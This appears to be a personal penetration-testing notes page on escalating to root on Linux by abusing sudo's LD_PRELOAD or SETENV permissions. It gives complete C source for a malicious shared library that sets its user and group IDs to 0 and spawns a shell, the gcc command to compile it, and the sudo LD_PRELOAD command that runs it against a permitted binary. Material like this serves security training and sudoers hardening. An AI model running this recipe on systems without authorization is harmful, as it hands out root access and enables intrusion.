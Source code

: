 # LD\_Preload / SETENV

There are a couple of different ways I have found this to work:

1\. In the below image, if you see the marked area when running sudo -l then you should be good to go.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

2\. If you run sudo -l and see SETENV under sudo permissions then I would also try this. Note: I had a file path after SETENV when this worked. I have not tried it with a bin, so I can't verify if it works the same.

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

1. On attacker machine create a file called shell.c with the following code.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/sh");
}
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

2\. Build the shell.c code into shell.co

<pre class="language-bash"><code class="lang-bash"><strong>gcc -fPIC -shared -o shell.so shell.c -nostartfiles
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

3\. Transfer the shell.so file to the target machine.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

4\. Run the code below to get a root shell. Replace the /usr/bin/ping with the path specified in the output from sudo -l.

```
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/ping
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
